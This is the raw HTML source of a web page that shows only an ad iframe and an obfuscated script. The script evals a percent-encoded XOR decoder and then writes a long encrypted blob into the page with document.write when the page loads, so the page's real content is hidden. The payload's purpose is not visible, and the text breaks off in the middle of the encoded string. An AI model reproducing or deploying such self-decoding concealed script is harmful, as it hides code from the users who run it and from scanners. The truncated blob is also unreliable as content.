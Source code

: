 <html>
<head>
</head>
<body>
<Center><iframe data-aa="1507938" src="//ad.a-ads.com/1507938?size=320x50" scrolling="no" style="width:320px; height:50px; border:0px; padding:0; overflow:hidden" allowtransparency="true"></iframe></center>
<script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%61%35%35%64%65%63%38%61%65%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%32%31%39%35%36%39%36%34%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%35%35%38%39%33%38%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%32%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%61%35%35%64%65%63%38%61%65%28%27') + '%3f%18%47%4a%47%54%50%4b%46%16%6f%71%63%6f%3b%0e%0f%3c%60%75%6e%6f%16%63%5c%64%60%3c%25%64%6a%26%3b%0e%0d%03%01%39%6e%66%58%67%3b%0d%0e%0c%0d%3f%62%6e%6f%61%1b%61%75%64%62%3d%22%63%77%7a%67%72%30%28%2a%70%72%73%2a%75%68%68%64%78%65%7b%65%2b%6e%6d%2b%62%58%71%62%69%64%6f%24%62%66%68%22%18%76%64%6f%3e%2d%6e%62%65%69%22%1b%75%71%68%64%3e%20%6f%62%5c%6d%66%2a%73%2c%61%67%6a%69%20%25%35%08%00%1b%19%1b%19%3c%6d%64%77%5a%16%6f%71%7a%6b%2c%66%68%75%61%73%3e%25%49%64%6f%7a%66%6b%77%2c%54%71%69%66%25%16%68%6e%64%77%64%69%75%3d%26%75%66%73%7a%24%65%7a%6e%6d%3c%19%67%60%58%75%74%6b%7b%38%7b%77%63%2e%31%26%3a%0c%0d%1b%16%17%1d%32%6e%64%77%58%18%60%75%77%6b%23%6a%6c%7b%62%73%3e%27%50%2d%54%3a%2e%49%64%68%66%5a%75%62%67%6c%65%27%1b%64%65%65%71%6b%69%75%3e%27%41%45%3c%66%67%6d%6a%23%34%0e%0f%1b%19%18%18%3d%6e%66%7a%56%1d%64%5a%6c%66%3c%26%72%60%66%70%66%64%73%7a%25%19%64%6a%6a%74%64%69%77%33%29%76%6f%67%75%63%3c%64%65%73%62%64%6b%22%76%6f%67%75%63%2d%18%61%6b%62%77%6f%56%69%23%74%66%5a%6d%65%3d%28%29%2b%28%35%08%00%0e%0f%0e%0f%18%18%19%1b%3f%7a%6e%71%62%66%3b%40%6a%6b%63%6d%66%1b%4a%79%64%7c%66%19%2e%19%54%4b%4a%49%54%4e%5a%43%24%4e%4d%3f%2a%74%61%75%6f%66%34%02%0b%03%0d%0c%0d%19%18%18%19%3f%1a%23%22%1d%49%54%56%1b%55%59%63%19%2e%2e%34%02%0b%16%1b%19%1b%3d%6c%61%6b%6c%1b%6e%79%60%6c%3e%27%63%75%74%68%76%3d%28%25%7b%6e%65%69%76%63%74%66%2a%62%62%77%6e%7a%63%24%62%6a%28%67%65%74%58%28%74%7a%79%60%57%6e%2a%74%75%71%6c%64%29%64%79%78%23%16%75%64%6f%3c%26%77%75%72%6f%6b%78%65%6b%66%75%25%19%74%71%69%66%3e%28%7b%60%7e%77%2a%64%76%77%26%19%28%39%03%01%1d%16%1b%19%3f%76%67%76%60%6b%77%16%78%73%69%3e%27%63%75%74%68%76%3d%28%25%7b%6e%65%69%76%63%74%66%2a%62%62%77%6e%7a%63%24%62%6a%28%67%65%74%58%28%74%7a%79%60%57%6e%2a%6d%68%75%65%77%72%29%63%6e%6f%24%6d%76%25%3b%3c%2b%76%64%75%6f%67%71%34%0e%0f%3f%6d%61%6a%6e%1b%63%78%6a%67%33%20%61%77%75%68%77%3f%28%28%69%6b%6f%60%74%2b%64%6d%6b%75%65%61%6f%57%79%60%24%64%6a%6e%2a%59%6e%58%73%28%62%6e%63%79%28%63%68%6b%74%2d%58%70%66%79%64%68%6b%28%34%29%28%34%2a%29%28%64%79%78%2e%57%6f%6d%29%6c%61%6a%2b%64%74%79%2c%1d%78%66%6d%3e%22%77%74%70%6f%66%79%6f%60%6b%77%22%28%3b%0d%0e%3d%74%77%7f%63%60%34%0e%0f%28%2f%74%60%64%1b%64%65%65%71%57%62%6b%66%77%18%6d%74%74%77%16%69%60%16%6b%6a%74%60%74%61%6a%69%66%6a%17%73%6b%6f%58%77%60%72%65%3f%2d%28%03%01%2f%69%76%76%77%6a%6d%2d%76%66%6f%6b%68%71%16%7c%0c%0d%19%18%68%6a%74%62%7a%6e%6e%64%3d%19%75%64%6c%59%75%62%71%6b%30%08%00%1b%19%70%60%64%74%61%3d%2a%26%27%20%17%62%6c%6b%6a%76%74%58%69%77%31%02%0b%73%0e%0f%3f%2a%77%74%70%6f%66%34%02%0b%32%74%66%75%60%68%74%3b%0e%0d%16%17%1d%16%71%58%75%19%61%62%77%5a%6e%6b%17%38%16%60%64%77%54%76%6c%53%5a%75%79%2f%24%51%25%60%67%27%5d%3f%0c%0d%1b%16%17%1d%6c%76%6b%64%75%61%6b%6b%1b%60%6b%7b%50%78%6f%53%5a%77%77%20%20%1b%7c%03%01%1d%16%1b%19%1b%19%18%18%73%5a%75%16%7d%5c%78%74%19%3e%19%7f%7d%3e%0e%0d%16%17%1d%16%1b%19%1b%19%72%59%77%1b%6b%57%79%71%79%1b%3c%1b%72%61%6a%65%68%70%24%63%6e%69%5a%75%62%6a%6a%2a%61%75%66%6c%25%73%6b%6b%6d%5a%66%65%20%2a%5c%38%2c%52%2a%2e%5c%5b%3e%23%5d%2f%20%3e%23%51%55%27%53%2d%20%28%62%61%2c%19%61%76%64%68%71%6f%68%6b%1b%21%6d%2c%19%6c%66%7f%23%1d%7c%5a%6d%76%64%21%18%7e%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%71%57%79%72%51%6c%64%72%5c%18%3d%19%71%5a%62%7a%60%31%0e%0f%1b%19%18%18%19%1b%1b%16%72%24%31%0e%0f%1b%19%18%18%19%1b%1b%16%79%60%7a%76%77%69%19%72%59%77%74%3c%03%01%1d%16%1b%19%7e%0c%0e%18%19%1b%1b%7c%56%73%16%67%19%3e%19%64%6b%66%76%6e%6b%65%71%31%0e%0f%3f%2a%77%67%77%62%6b%7a%35%04%0f%0e%0f%3f%76%67%76%60%6b%77%16%7b%74%66%66%3c%25%75%65%70%75%28%6d%57%7d%5c%79%64%77%62%69%74%26%3b%0e%0d%0f%0e%04%6c%76%6b%64%75%61%6b%6b%1b%74%6b%7b%44%6c%75%58%6e%64%57%6b%74%75%64%6b%2f%24%16%7c%0c%0d%00%01%01%00%71%5a%78%17%71%6e%66%56%66%6d%65%67%75%1b%3e%16%6b%6e%69%76%6c%66%6b%74%2a%62%66%77%4b%63%60%63%66%6b%77%47%71%41%65%23%20%62%64%62%57%77%60%68%6b%23%21%3e%0e%0d%0f%0e%04%0f%71%58%75%19%74%60%64%42%61%78%56%68%6b%1b%3c%1b%65%6b%67%74%6e%66%64%7b%2f%6d%66%75%46%6d%65%6d%64%69%77%48%7e%44%6a%23%22%6e%70%41%62%77%5a%6e%6b%2c%24%31%0e%0f%02%00%01%01%73%5a%75%16%7b%65%6b%56%77%6f%3e%0d%0e%00%02%02%0f%02%0b%0f%02%00%02%75%60%65%54%75%6f%16%32%1d%7a%63%64%54%64%6c%65%66%77%29%65%67%71%6f%68%6b%74%5e%74%60%64%54%66%62%6a%62%7a%29%76%66%6d%65%67%75%66%67%4f%65%61%6b%73%5c%29%73%59%6c%74%66%3c%03%01%04%0f%02%00%77%61%65%41%63%75%5a%63%6a%2f%79%75%66%1b%3c%18%74%61%66%56%78%63%3a%03%0d%00%02%00%7d%0d%0f%02%02%32%24%72%69%75%60%6b%75%3a%0d%0f%3f%74%7a%7e%69%6b%39%61%75%7e%66%6b%77%67%66%78%22%71%65%6b%3f%2a%69%70%18%76%68%6f%6f%6b%1d%29%61%63%61%63%62%62%3e%67%62%79%67%69%57%72%3f%65%6d%6b%67%6e%3c%6e%57%79%66%6f%69%2c%65%6a%74%74%6a%6e%3d%27%3d%6d%7e%3c%72%62%65%74%60%3f%32%2b%2b%72%2f%68%77%6b%2e%61%6b%72%64%75%1b%71%7b%60%7e%77%2c%77%77%59%6a%76%61%68%78%62%3b%7b%6b%69%66%77%67%59%76%66%3c%6c%64%6f%7a%2e%72%66%60%63%60%75%3d%2a%38%27%2d%31%70%60%67%75%60%3e%19%35%30%3b%67%75%31%1b%63%68%6b%74%2d%76%62%7d%6b%31%1d%27%31%69%73%3e%18%62%6a%69%77%23%7c%60%6f%60%61%77%3f%18%32%29%2b%3c%16%68%6e%62%68%77%3d%19%27%62%63%61%3c%16%68%70%78%74%6a%75%3f%18%68%6a%62%69%7a%6a%73%31%1b%6c%5a%77%63%61%6b%3d%1b%27%3b%6d%7e%3c%19%63%64%61%63%61%77%3d%16%3a%30%66%73%3e%1b%75%65%70%75%2e%5a%62%6e%66%64%3d%19%64%64%6a%74%64%75%3c%16%69%6e%78%67%64%75%3f%18%6a%6a%69%66%31%17%63%57%64%6e%60%77%6b%75%6b%67%2e%79%6e%7b%6b%3d%19%34%29%28%25%19%2a%2b%26%2a%3a%16%65%6a%75%65%65%76%2c%75%5a%6a%6e%70%79%3d%19%36%29%68%70%3e%1b%6e%65%71%28%7a%75%58%69%76%61%74%60%68%69%30%17%5c%62%6f%19%29%35%77%18%64%5a%74%6b%22%64%64%2e%6a%76%75%3f%18%2c%68%2e%7a%79%5c%64%74%60%77%60%6b%6a%3f%1b%5a%62%63%1d%24%37%76%1b%64%59%77%64%2e%62%64%22%6e%7b%77%3e%1b%2c%73%65%67%6c%62%7a%22%71%78%5a%6b%74%60%74%61%6a%69%3d%16%56%69%62%1b%2b%37%76%18%65%58%74%66%23%6e%6f%23%68%74%77%3e%18%74%77%5a%69%79%6e%71%6f%68%6b%3d%19%59%6c%6d%1b%29%3a%78%1d%6b%5a%76%66%2c%61%6a%2c%68%76%7a%30%78%24%65%75%69%2c%60%6b%73%66%75%30%6f%6e%7c%66%77%1b%7e%18%66%58%64%6c%6d%79%6e%7b%69%65%2e%69%6b%77%60%77%62%65%65%3b%16%2a%29%2b%24%18%28%3e%1b%6e%65%71%28%7a%75%58%69%76%61%74%60%68%69%30%17%5c%62%6f%19%29%35%77%18%64%5a%74%6b%22%64%64%2e%6a%76%75%3f%18%2c%68%2e%7a%79%5c%64%74%60%77%60%6b%6a%3f%1b%5a%62%63%1d%24%37%76%1b%64%59%77%64%2e%62%64%22%6e%7b%77%3e%1b%2c%73%65%67%6c%62%7a%22%71%78%5a%6b%74%60%74%61%6a%69%3d%16%56%69%62%1b%2b%37%76%18%65%58%74%66%23%6e%6f%23%68%74%77%3e%18%74%77%5a%69%79%6e%71%6f%68%6b%3d%19%59%6c%6d%1b%29%3a%78%1d%6b%5a%76%66%2c%61%6a%2c%68%76%7a%30%78%24%65%75%69%2c%60%6b%73%66%75%30%6d%6e%69%76%76%1b%7e%18%6b%74%77%6f%6f%65%60%30%1b%6b%68%6b%65%3f%7c%29%65%7a%65%28%6e%68%73%66%77%2a%67%6a%6f%68%78%22%2c%16%7c%19%65%58%67%6f%62%75%68%7b%65%61%23%62%6c%5a%62%65%3e%19%6f%62%64%6a%5c%78%2e%62%75%58%64%61%64%69%77%2e%7b%6e%16%75%60%60%61%74%2c%19%24%35%3b%56%5c%6b%2a%2d%1b%26%34%28%64%37%32%3b%23%1d%29%34%29%67%65%30%59%2d%1b%24%38%69%63%3c%30%36%22%3e%18%66%6a%73%2e%79%6f%5c%6a%68%72%3d%19%28%18%35%6b%73%16%26%30%66%73%19%2b%19%76%63%67%5a%23%3a%3e%29%16%2a%30%31%2d%18%29%30%2b%2f%16%27%2f%3d%36%20%3c%7c%2a%66%75%69%2e%6e%64%77%6b%75%2b%64%6a%6c%6b%77%2e%35%16%70%1d%68%5a%66%6c%62%76%6b%74%69%67%23%6e%68%57%60%64%3d%19%6c%61%6b%66%5a%78%22%66%78%5a%65%62%64%6a%74%21%77%68%16%79%64%6d%63%75%2f%19%27%62%34%64%66%3c%39%29%16%24%64%37%36%32%28%36%2f%1b%29%6d%5c%3d%2a%30%32%2d%18%27%64%33%36%57%26%34%2f%3c%7c%29%67%74%6a%2c%63%68%7c%6a%73%24%64%6a%6f%6a%76%2d%36%1b%7c%16%69%5c%69%6c%62%75%6a%75%6a%65%2e%62%63%56%66%6b%3d%19%6f%60%6a%65%58%75%2e%6d%79%5c%6a%62%64%69%75%20%74%6a%1b%75%6f%6c%65%7a%2f%19%24%33%32%33%64%66%5a%22%17%22%3d%31%35%65%58%36%2c%19%24%31%48%3f%41%4a%31%2d%1b%26%30%45%36%30%47%3d%2e%3a%16%65%6a%73%2c%77%60%58%67%68%7d%31%1d%26%1b%35%6b%71%18%29%34%6b%73%16%27%1d%78%60%67%5a%21%29%29%33%2f%1b%3d%3e%29%16%2a%33%33%2d%18%28%2b%30%36%2f%30%78%24%65%75%69%2c%60%6b%73%66%75%24%68%6e%62%68%77%2e%35%18%7f%19%65%5a%69%60%66%78%68%74%69%65%2d%61%6c%5a%60%6b%31%1d%62%62%6b%66%58%76%2d%62%75%5a%6a%6e%60%64%77%21%77%6a%18%76%60%60%63%7a%23%1d%29%61%66%31%29%33%32%2d%1b%24%6c%6d%34%57%37%35%2f%19%27%65%63%32%67%3a%38%29%16%24%64%30%34%35%29%33%22%3c%16%69%6e%7e%2e%76%63%58%64%6b%72%3d%1b%26%17%31%66%73%19%2a%34%68%70%19%2b%1b%78%6c%63%57%23%37%36%37%2c%18%28%2b%37%22%17%2c%27%2b%2d%1b%29%2a%33%34%22%3c%73%25%63%7a%69%2c%63%6a%72%65%77%29%64%65%63%6e%78%2e%34%1b%7e%18%66%58%64%6c%6d%79%6e%7b%69%65%2e%60%6d%59%62%66%3d%16%63%64%64%66%58%75%2c%63%76%58%67%62%6b%65%71%2e%77%6a%1b%77%61%63%61%77%2f%16%28%2d%68%5a%36%31%29%2c%18%26%34%64%68%56%34%38%2f%19%24%36%28%64%65%33%5a%22%17%22%38%65%67%31%32%37%21%3e%1b%65%65%7f%28%79%63%58%67%6a%73%3e%19%2b%1b%3a%67%75%16%2a%34%6b%71%18%28%19%75%60%68%56%25%38%34%2d%1b%28%32%30%2d%1b%2a%26%3f%29%16%2b%2b%30%34%21%3f%7c%29%65%7a%65%28%6e%68%73%66%77%2a%67%6a%6f%68%78%22%37%16%7c%19%65%58%67%6f%62%75%68%7b%65%61%23%62%6c%5a%62%65%3e%19%6f%62%64%6a%5c%78%2e%62%75%58%64%61%64%69%77%2e%7b%6e%16%75%60%60%61%74%2c%19%24%2b%26%3e%33%3a%36%2d%1b%26%42%47%44%46%35%27%23%1d%29%2b%29%3a%31%47%35%2d%1b%24%4a%3e%40%26%35%28%22%3e%18%66%6a%73%2e%79%6f%5c%6a%68%72%3d%19%28%18%35%6b%73%16%26%30%66%73%19%2b%19%76%63%67%5a%23%3e%38%29%16%2a%32%31%2d%18%35%32%2f%1b%26%25%36%3b%22%3e%7e%2b%66%74%6b%2e%63%65%7d%60%78%29%66%68%6d%6b%76%2c%30%1b%71%17%63%57%64%6e%60%77%6b%75%6b%67%2e%6f%62%5c%6d%66%3f%1b%6d%61%6a%64%5a%75%23%6c%73%57%67%60%66%6b%74%20%75%68%1b%78%6e%66%6e%77%2d%1b%26%32%36%34%34%66%27%23%1d%29%33%34%35%45%31%29%2d%1b%24%37%38%3c%27%41%43%2f%19%27%42%37%37%31%3a%3a%24%31%1b%67%68%71%2d%77%61%5a%67%65%7c%3b%16%2b%19%37%69%70%18%28%36%6b%7e%17%2d%16%75%62%65%58%20%29%37%31%2f%16%3a%33%22%1b%28%31%28%2c%18%29%29%30%3b%2e%3a%73%29%67%77%6b%2d%60%6a%71%66%78%25%62%65%6f%6a%75%2c%30%18%7e%1b%65%57%68%6a%6d%75%6a%76%6b%64%2d%60%6e%5a%6d%6a%3b%16%6f%60%69%64%59%76%2c%60%75%57%6b%64%6b%69%75%23%75%6b%18%77%62%60%6e%7b%29%16%24%37%32%36%36%37%66%2f%1b%29%3b%35%3b%36%33%34%2d%18%27%37%65%36%3e%3c%37%22%1b%26%37%64%34%37%32%31%22%31%17%63%65%73%2c%74%61%59%64%6a%70%3d%16%27%1d%3a%6b%71%1b%28%35%68%71%1b%2b%16%79%66%68%5a%21%37%34%2c%18%34%37%2f%16%3d%30%22%1b%29%29%32%35%21%3e%7e%29%68%7b%6f%23%63%6a%71%64%76%2a%66%68%6f%65%79%28%3f%1b%7e%1b%67%59%67%6e%60%75%65%7a%6f%6a%2e%60%6e%58%63%65%3f%1b%6f%6f%65%60%57%75%2c%60%77%59%64%60%66%69%7a%2f%71%65%1b%77%62%62%60%74%2d%1b%24%38%3a%5c%57%66%28%2f%19%27%34%35%33%2a%6b%69%29%16%24%29%37%67%65%62%64%2f%1b%29%38%67%3e%31%64%67%20%3f%18%67%68%73%23%78%65%57%67%6a%70%3f%18%28%19%34%6b%7e%17%2c%38%6b%71%1b%29%18%76%62%65%5a%2e%3b%34%22%1b%28%32%33%2c%18%28%32%2b%22%17%2d%24%30%34%22%3e%7d%2a%67%77%69%23%6f%6e%7c%66%77%29%66%6b%6c%6a%75%2e%27%27%1d%71%1b%67%5a%66%6f%63%77%68%76%64%6b%28%6f%6e%58%60%64%3e%18%6d%62%69%6b%56%73%23%60%77%5a%65%61%65%6b%77%23%7a%64%1d%78%62%62%63%75%2c%18%26%66%67%3c%6a%5c%26%2f%19%24%64%67%30%66%31%32%22%17%22%6c%30%28%33%33%59%18%2d%1b%24%4c%49%43%26%34%47%22%3e%18%66%6a%73%2e%79%6f%5c%6a%68%72%3d%19%28%18%35%6b%73%16%26%30%66%73%19%2b%19%76%63%67%5a%23%38%38%37%22%1b%28%2a%33%2c%18%28%37%32%22%17%2d%24%30%34%22%3e%7d%2a%67%77%69%23%6f%6e%7c%66%77%29%66%6b%6c%6a%75%2e%27%26%1d%71%1b%67%5a%66%6f%63%77%68%76%64%6b%28%6f%6e%58%60%64%3e%18%6d%62%69%6b%56%73%23%60%77%5a%65%61%65%6b%77%23%7a%64%1d%78%62%62%63%75%2c%18%26%66%65%39%3e%31%27%2f%19%24%63%29%35%64%31%37%22%17%22%6b%2a%35%66%34%37%2c%19%24%66%38%38%36%39%61%20%3c%19%66%6b%71%2e%74%6e%56%61%65%70%3f%1b%29%18%35%69%73%1b%27%3a%6d%7e%1b%77%60%67%59%20%37%37%35%22%17%34%3d%2f%19%2a%29%37%2c%19%29%37%2f%30%78%32%28%76%77%70%6c%65%3b%0e%0d%32%78%71%7f%6f%64%39%60%6d%63%7e%6e%5a%7e%22%76%6f%67%75%63%3f%32%28%29%6b%73%73%02%0b%6e%75%7e%64%6a%6c%6b%77%3d%24%57%56%5c%57%5a%58%7e%0c%0e%2b%2f%1b%54%7a%7e%69%6b%1b%67%76%75%74%6b%6b%74%1b%20%24%08%00%29%67%77%6b%18%7f%0c%0d%1b%16%69%5c%69%6c%62%75%6a%75%6a%65%2e%64%65%63%6e%78%3d%19%47%6a%64%63%64%75%45%62%7a%60%31%0e%0f%1b%19%66%6b%77%67%66%78%31%1d%64%68%6b%66%3e%0d%0e%19%1b%64%65%63%6e%78%3d%19%70%61%61%74%64%3c%0e%00%17%1d%66%5a%65%67%60%6a%63%3f%1b%2a%38%67%75%16%34%29%6b%71%3f%0d%0f%1b%1b%69%7a%73%79%68%77%3d%19%68%6b%60%69%77%6b%79%3a%03%0d%19%1b%63%6b%6a%75%2e%74%6f%71%60%30%1b%28%33%69%70%3f%0c%0d%7e%03%01%08%00%28%2f%1b%45%59%76%6e%66%75%16%69%5c%69%6c%62%75%6a%75%6a%65%1b%68%64%17%68%65%76%76%66%2c%6b%72%64%75%1b%20%24%08%00%29%67%77%6b%3e%60%6a%71%66%78%17%7a%03%0d%19%1b%67%59%67%6e%60%75%65%7a%6f%6a%2e%66%68%6d%6b%76%3f%1b%55%65%7e%5c%62%45%6d%76%64%3f%0d%0f%7e%0e%00%25%73%6b%74%69%2e%66%6b%6a%75%5a%62%64%6a%73%16%7c%0c%0d%19%18%18%19%6b%68%79%6e%71%6f%68%6b%3d%19%76%65%6d%5a%77%6f%7d%60%31%0e%0f%1b%19%18%18%6a%71%66%78%6d%69%65%70%3f%1b%61%61%64%65%66%69%31%02%0b%16%1b%19%1b%69%59%64%65%62%69%6d%22%71%65%6b%3f%1b%34%32%2a%37%36%26%31%02%0b%73%0e%0f%0e%0f%2a%76%64%74%6b%23%6e%67%78%5a%6c%66%19%7f%0d%0f%1b%1b%16%17%6d%65%74%60%77%60%6b%6a%3f%1b%5a%68%78%6e%62%76%75%66%3e%0d%0e%19%1b%1b%16%7b%6e%66%3d%19%2b%3e%0d%0e%19%1b%1b%16%63%60%6c%77%3f%1b%29%3f%0d%0f%1b%1b%16%17%76%6f%67%75%63%3f%18%29%29%2b%26%31%02%0b%16%1b%19%1b%61%65%61%62%63%77%30%17%2c%26%2b%24%3c%0c%0e%18%19%1b%1b%68%64%73%6a%66%77%3d%19%28%3f%0c%0d%7e%03%01%08%00%3f%2a%74%75%71%6c%64%39%0e%00%33%2e%6e%66%58%67%3b%0d%0e%0c%0d%3f%68%64%61%7f%1b%66%6f%58%77%77%3c%25%6e%6f%65%28%7c%63%2c%2a%29%28%18%65%2e%61%62%6a%75%16%61%6d%66%71%2d%67%6a%6f%76%63%65%23%34%0e%0f%1b%19%18%18%3d%69%5a%7c%17%62%62%5a%76%74%3c%26%6a%58%71%65%57%79%1d%64%5a%73%65%58%76%2d%64%73%6b%57%65%61%23%6f%62%1b%6b%59%72%67%5a%75%23%63%64%6d%63%75%1b%67%63%2d%72%63%62%7a%6a%1d%68%68%77%67%64%76%2d%67%68%77%7a%64%68%16%65%6a%75%65%65%76%2c%6f%62%6d%6f%71%16%61%60%73%64%64%2d%75%68%6b%28%35%08%00%1b%19%1b%19%18%18%19%1b%3f%6a%6e%77%16%64%6d%5a%76%77%3d%27%64%68%64%7b%5c%6f%69%64%75%2c%62%6c%74%62%67%28%35%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%32%5a%19%64%6d%59%77%76%3e%25%64%56%77%68%5a%77%2e%67%76%59%6b%67%25%16%6f%73%6b%61%3c%25%2a%2b%26%19%77%62%7a%63%60%33%25%55%68%6a%6a%77%41%76%65%28%35%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%3d%61%6d%62%1b%74%78%68%38%28%63%75%77%69%77%3e%2a%28%75%57%7c%2f%6d%62%75%63%74%66%75%76%66%75%69%64%6f%7a%66%6b%77%2b%67%6b%6c%28%57%65%64%6f%79%43%74%65%2a%54%6b%6a%69%74%4e%7a%63%24%60%60%77%61%75%66%2b%62%68%25%62%5c%79%77%64%75%2a%66%65%75%5a%28%62%64%66%65%29%69%69%62%26%18%61%66%62%6d%6f%71%33%25%36%2b%27%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%64%6d%5a%76%77%3d%27%6f%5a%70%7e%69%65%5a%65%1b%65%2d%61%6b%6f%62%64%6a%28%68%6f%6a%64%6e%18%59%6d%62%60%64%22%71%65%6b%27%1b%58%6c%74%3c%25%57%65%64%6f%79%43%74%65%27%3a%0d%0f%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%3d%28%5a%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%39%68%76%75%77%6a%6a%18%66%6f%5a%79%78%38%28%69%58%71%67%59%76%2c%77%68%6d%6c%69%6b%75%27%1b%75%71%68%64%3e%25%68%7a%71%7a%68%6b%25%19%64%59%75%5a%2e%7a%64%66%6d%6f%64%3e%27%67%6b%6d%6f%5a%66%78%60%28%1b%65%5a%75%59%2d%75%5a%75%6d%6a%71%33%25%26%69%58%72%66%58%75%55%6b%78%6d%65%69%76%62%73%65%26%0c%0d%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%5c%78%62%58%2e%66%6b%6a%75%75%68%62%78%38%28%69%58%71%67%59%76%57%66%74%66%64%6f%79%62%73%66%27%18%59%77%62%5a%23%63%5c%68%66%6d%3e%27%54%6b%62%60%6f%6b%17%6f%57%71%60%60%58%74%61%6a%69%25%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%3f%76%68%59%6b%1b%64%62%56%72%79%3e%27%69%58%72%66%58%75%2e%7a%64%66%6d%6f%64%75%2c%61%67%6a%69%25%34%33%2e%79%6b%58%69%3b%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%3c%2a%65%76%7a%7b%6e%64%39%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%3f%65%61%72%19%64%6f%57%78%72%33%25%66%68%6d%6c%59%69%74%66%16%65%5c%7c%65%58%75%2c%67%6b%6d%6f%5a%66%78%60%28%1b%60%67%3c%26%6a%58%71%65%57%79%53%6b%74%69%68%6b%77%61%73%66%25%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%3f%65%61%72%19%64%6f%57%78%72%33%25%6b%5a%73%66%59%77%2e%69%57%7d%1d%63%72%2c%34%19%6d%71%2c%6f%60%23%27%1d%65%75%65%66%77%2d%36%27%39%0e%00%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%3c%62%6a%75%6e%16%6e%61%33%25%68%76%60%67%6f%5a%74%66%57%79%62%6e%58%63%68%77%6d%26%19%64%6f%57%78%72%33%25%6b%5a%73%66%59%77%2e%61%65%79%68%16%62%6b%6b%74%74%2d%62%75%68%7b%67%1d%6f%69%69%76%75%2d%63%77%68%76%66%22%72%63%25%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%58%64%75%61%6b%6b%3e%25%25%29%1d%63%66%75%63%6a%64%3d%27%60%66%7a%29%3f%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%32%62%6b%6b%74%74%18%75%72%6b%6b%32%23%7a%66%71%77%27%18%72%58%6f%76%6b%32%23%28%1b%6b%5a%6c%65%3d%27%74%25%16%6e%61%33%25%76%66%58%76%67%61%25%1b%69%63%5c%79%74%3c%25%63%6b%76%6c%2e%64%65%65%71%78%68%6d%25%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%6b%6f%57%68%60%6e%68%6d%67%64%76%3d%27%5c%57%65%64%6f%79%43%74%65%5c%18%57%64%5a%75%69%6f%2f%24%29%27%1b%58%75%74%6a%64%68%63%67%69%6b%77%64%3e%27%6b%62%63%25%39%03%01%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%3c%2a%61%68%78%62%3f%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%3c%2b%65%62%71%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%3f%74%6c%18%66%6f%5a%79%78%38%28%69%58%71%19%6a%59%73%65%5a%78%22%6f%57%71%19%6e%77%2d%59%74%77%68%16%64%73%6a%66%77%2e%28%26%3a%0c%0d%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%3f%6d%61%18%66%6f%5a%79%78%38%28%69%58%71%2c%61%74%64%6e%25%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%33%5c%16%64%6d%5a%76%77%3d%27%69%5a%7c%22%69%6f%69%6e%25%19%60%76%64%61%3e%28%24%23%34%3f%60%1b%66%6c%59%76%74%3e%28%6d%5c%79%1b%63%5a%2c%60%6b%6c%66%1b%6c%56%28%6c%70%27%39%3d%2b%61%3b%1b%43%65%62%60%32%28%58%39%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%32%28%6d%62%3b%0d%0e%0c%0d%0e%00%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%3f%2a%75%6c%3b%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%32%76%6d%1b%66%6c%59%76%74%3e%28%65%5c%7c%65%58%75%2c%6a%59%73%1b%6e%7f%22%33%16%6e%70%2e%6d%63%2d%29%1b%6e%7e%22%69%6d%2e%37%1b%6a%76%64%64%75%2e%39%29%3f%03%0d%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%33%69%6f%1b%66%6f%58%77%77%3c%25%69%57%7d%28%6f%77%64%6e%27%3a%0d%0